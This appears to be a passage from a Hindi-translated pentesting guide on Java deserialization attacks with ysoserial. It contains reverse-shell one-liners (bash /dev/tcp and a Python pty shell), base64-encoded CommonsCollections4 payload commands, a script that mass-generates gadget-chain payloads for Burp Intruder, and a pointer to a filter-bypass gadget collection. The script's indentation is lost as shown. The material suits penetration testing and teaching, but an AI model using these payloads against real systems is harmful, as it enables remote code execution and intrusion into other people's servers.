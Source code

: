 ```bash
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```
जब **java.lang.Runtime.exec()** के लिए एक payload बनाते हैं तो आप **विशेष वर्ण** जैसे ">" या "|" का उपयोग नहीं कर सकते हैं ताकि किसी कार्रवाई के आउटपुट को रीडायरेक्ट करें, "$()" को कमांड चलाने के लिए या यहाँ तक कि **किसी कमांड को अलग-अलग अर्ग्यूमेंट्स** के साथ अलग करने के लिए **अंतरिक्षों** से (आप `echo -n "hello world"` कर सकते हैं लेकिन आप `python2 -c 'print "Hello world"'` नहीं कर सकते हैं)। पेलोड को सही ढंग से इन्कोड करने के लिए आप [इस वेबपेज](http://www.jackson-t.ca/runtime-exec-payloads.html) का उपयोग कर सकते हैं।

विन्डोज और लिनक्स के लिए **सभी संभावित कोड एक्सीक्यूशन** payloads बनाने के लिए निम्नलिखित स्क्रिप्ट का उपयोग करें और फिर उन्हें विकल्पी वेब पेज पर टेस्ट करें:
```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
for payload in payloads:
final = cmd.replace('REPLACE', payload)
print 'Generating ' + payload + ' for ' + name + '...'
command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
result = command.read()
command.close()
encoded = base64.b64encode(result)
if encoded != "":
open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```
#### सीरियलकिलरबायपासगैजेट्स

आप **इस्तेमाल** कर सकते हैं [**https://github.com/pwntester/SerialKillerBypassGadgetCollection**](https://github.com/pwntester/SerialKillerBypassGadgetCollection) **ysoserial के साथ अधिक एक्सप्लॉइट्स बनाने के लिए**। इस टूल के बारे में अधिक जानकारी **टॉक के स्लाइड्स** में है जहाँ टूल प्रस्तुत किया गया था: [https://es.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class?next\_slideshow=1](https://es.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class?next\_slideshow=1)
